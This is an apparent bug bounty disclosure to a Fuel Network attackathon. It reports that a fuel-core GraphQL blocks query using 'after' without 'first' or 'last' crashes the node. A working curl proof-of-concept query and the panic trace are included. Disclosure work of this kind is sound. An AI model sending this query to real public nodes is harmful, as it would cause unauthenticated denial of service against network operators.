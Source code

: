 
# A GraphQL query crashes core process

Submitted on Thu Jun 27 2024 16:57:59 GMT-0400 (Atlantic Standard Time) by @xylix for [Attackathon | Fuel Network](https://immunefi.com/bounty/fuel-network-attackathon/)

Report ID: #32628

Report type: Blockchain/DLT

Report severity: Medium

Target: https://github.com/FuelLabs/fuel-core/tree/8b1bf02103b8c90ce3ef2ba715214fb452b99885

Impacts:
- RPC API crash affecting projects with greater than or equal to 25% of the market capitalization on top of the respective layer
- Shutdown of greater than or equal to 30% of network processing nodes without brute force actions, but does not shut down the network
- Network not being able to confirm new transactions (total network shutdown)
- Shutdown of greater than 10% or equal to but less than 30% of network processing nodes without brute force actions, but does not shut down the network

## Description
## Brief/Intro
When using the GraphQL API to query for blocks, if the fields `before` or `after` are used to filter, without also populating either the `first` or `last` parameter, there will be an empty response and the whole fuel-core process being ran will crash.

## Vulnerability Details
As described in the intro, when the GraphQL API is used to query blocks by the `after` or `before` filter, when the `first` and `last` parameters are empty, the fuel-core process running the GraphQL server crashes. (The POC contains a CURL query demonstrating this.)

The crash message `thread 'tokio-runtime-worker' panicked at crates/fuel-core/src/schema.rs:129:17` pointed me to check the following code file: https://github.com/FuelLabs/fuel-core/blob/8b1bf02103b8c90ce3ef2ba715214fb452b99885/crates/fuel-core/src/schema.rs#L129 There seems to be a case where when neither of [first, last] parameters is provided, the validation doesn't see this as a problem, and the `unreachable!` macro is invoked, crashing the process.

## Impact Details
Any node that provides the public GraphQL API could be taken down with this exploit, leading to a denial of service, quite cheaply (it being a single exploit query attack, and not brute force, and not requiring any sort of authentication). Reading the documentation, it seems all client nodes provide this GraphQL API. This implies that all client nodes could be taken down with this exploit. 

## References
The code where the crash stack trace points: https://github.com/FuelLabs/fuel-core/blob/8b1bf02103b8c90ce3ef2ba715214fb452b99885/crates/fuel-core/src/schema.rs#L129 
        
## Proof of concept
Have the node running locally in release mode `cargo run --release --bin fuel-core -- run`
Run the query
`curl 'http://localhost:4000/v1/graphql' -H 'Content-Type: application/json' -H 'Accept: application/json' --data-binary '{"query":"{ blocks(after: \"1\") { edges { node { id }}} }"}'`
There will be an empty reply from server, an error such as `curl: (52) Empty reply from server`, and the server process will have shut down.

OR using the project's provided GraphQL playground at http://localhost:4000/v1/playground, and run the query `{ blocks(after: "1") { edges { node { id } } } }`. There will be a `  "error": "NetworkError when attempting to fetch resource."` error and the server process will crash.

In the terminal running the core process, the following stack trace should appear:
```
thread 'tokio-runtime-worker' panicked at crates/fuel-core/src/schema.rs:129:17:
internal error: entered unreachable code
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
fish: Job 1, 'cargo run --release --bin fuel-…' terminated by signal SIGABRT (Abort)
```